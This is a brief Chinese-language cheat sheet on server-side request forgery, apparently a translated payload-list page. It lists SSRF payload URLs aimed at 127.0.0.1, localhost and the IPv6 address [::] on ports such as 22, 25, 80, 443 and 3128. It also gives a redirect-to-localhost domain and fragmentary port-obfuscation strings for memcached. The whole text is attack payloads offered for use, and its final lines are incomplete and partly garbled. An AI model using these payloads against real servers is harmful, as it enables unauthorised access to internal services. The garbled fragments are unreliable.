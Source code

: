 # 伪造服务器端请求
服务器端请求伪造或是SSRF是一个攻击者可以迫使服务器为他执行请求的漏洞.	

## 开发

基本SSRF v1
```
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
```

基本SSRF v2
```
http://localhost:80
http://localhost:443
http://localhost:22
```

用[::]绕过主机
```
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
```

绕过本地主机，将域名重定向到本地主机
```
http://n-pn.info
```

-> 11211
本地主机:+11211aaa
本地主机:00011211aaaa

## 感谢
* 
